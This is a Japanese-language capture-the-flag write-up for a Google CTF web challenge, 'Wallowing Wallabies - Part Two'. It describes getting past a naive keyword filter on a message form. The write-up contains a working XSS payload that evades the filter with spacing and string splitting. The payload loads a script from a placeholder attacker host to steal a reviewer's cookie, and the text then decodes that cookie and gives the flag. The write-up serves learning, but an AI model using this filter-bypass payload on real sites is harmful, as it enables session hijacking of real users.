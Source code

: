 # Wallowing Wallabies - Part Two
Category: Web
Point: 50

## Question
Time to brush off those XSS skills again in a new part of the page! Same website as [before](https://wallowing-wallabies.ctfcompetition.com/).

## FLAG
`CTF{strict_contextual_autoescaping_to_solve_your_xss_woes}`

## Answer
Wallowing Wallabies - Part Oneの続きで，`vendors`ページに`Messaging`というリンクが新たに追加されている．
リンクをクリックすると，`/deep-blue-sea/team/vendors/msg`ページに移動する．
このページでは，Bobという人にメッセージを送れるフォームが存在する．

このフォームを通して，Part Oneと同様の手順でCookieを奪取すれば良いと考えられる．
いくつかの入力を試してみると，`<script>`や`src=`，`onerror=`，`js`，`script`等のキーワードが弾かれることがわかる．
ただ正規表現（？）に漏れがあり，`src =`や`onerror =`のようにスペースを含めると弾かれないため，
フォームに下記を入力して送信した．

```html
<img src =0 onerror ="document.write('<scr'+'ipt   src    ='+'http://your-specific-domain-or-ip-address/external.j' + 's></scr' + 'ipt>')">
```
ここでは，`js`や`script`にならないように連結する．

しばらくすると，WebサーバのアクセスログにCookieの情報が乗ったアクセスが届く．  
`green-mountains=eyJub25jZSI6IjE3ZDE0NWE5M2Q5Yzc5Y2MiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vY2hhcmFjdGVycy4qJCIsImV4cGlyeSI6MTQ2MjEyMTUyM30=|1462121520|e52c48a9cb7c11d0ba3d795ef5e941a9cdeb27f6`

`|`で三区分された一つ目の文字列をデコードしてみる．
```bash
$ echo 'eyJub25jZSI6IjE3ZDE0NWE5M2Q5Yzc5Y2MiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vY2hhcmFjdGVycy4qJCIsImV4cGlyeSI6MTQ2MjEyMTUyM30=' | base64 -D
{"nonce":"17d145a93d9c79cc","allowed":"^/deep-blue-sea/team/characters.*$","expiry":1462121523}
```

上記のCookieの値をセットして，`characters`ページをアクセスすると，フラグが表示される．

最初，Base64デコードせずにただCookieをセットして，`vendors`ページに何回もアクセスしてハマってしまった:weary:

## Author
GitHub: @asakasa
